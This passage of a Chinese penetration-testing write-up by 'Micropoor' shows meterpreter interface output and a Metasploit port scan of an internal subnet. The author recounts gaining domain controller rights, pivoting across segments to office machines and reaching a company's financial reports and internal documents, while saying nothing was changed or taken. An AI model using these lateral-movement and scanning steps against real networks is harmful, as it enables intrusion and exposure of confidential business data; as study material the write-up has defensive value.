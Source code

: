 ```bash
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1

Interface 2

============
Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0

meterpreter >
Background session 3? [y/N]

msf auxiliary(tcp) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > show options
Module options (auxiliary/scanner/portscan/tcp):

Name Current Setting Required Description
---- --------------- -------- -----------

CONCURRENCY 10 yes The number of concurrent ports to check per host
DELAY 0 yes The delay between connections, per thread, in milliseconds
JITTER 0 yes The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
PORTS 445,80,3389,22 yes Ports to scan (e.g. 22-25,80,110-900)
RHOSTS 10.23.255.1-255 yes The target address range or CIDR identifier
THREADS 10 yes The number of concurrent threads
TIMEOUT 1000 yes The socket connect timeout in milliseconds
```

最终得到了域控权限，并且得到了跨段的服务器权限。得到了个人机的重要权限，以及公司财报doc。  

部分截图如下：由于时间问题，顺序可能打乱了。  
![](media/d9c285d8edbf94e604d4e2f92fe63815.jpg)

![](media/824a5aaac67fa081fad56b2ca579832e.jpg)

![](media/c9f9fb2244552c5a3dca3568004ed092.jpg)

![](media/3e0d25dfde3a692f2a49b094dfb71725.jpg)

跳段， 个人机  
![](media/89c46d141a5ffbd22831f3075eedf393.jpg)

![](media/4ea97efa8ad35910d41c147a7e6eb006.jpg)

放弃权限，所有操作并未更改，下载，删除等一切损害该公司的行为。
![](media/7f7f09e6ec2f6f8860b6700befeea075.jpg)

至此由虚拟机跳段到了工作办公机，（典型的A-B-C类跳板）得到了该公司的下年计划，人员组织构架，财务报表，盈利情况，以及内部相关work文档等。

<p align="right">--By  Micropoor </p>
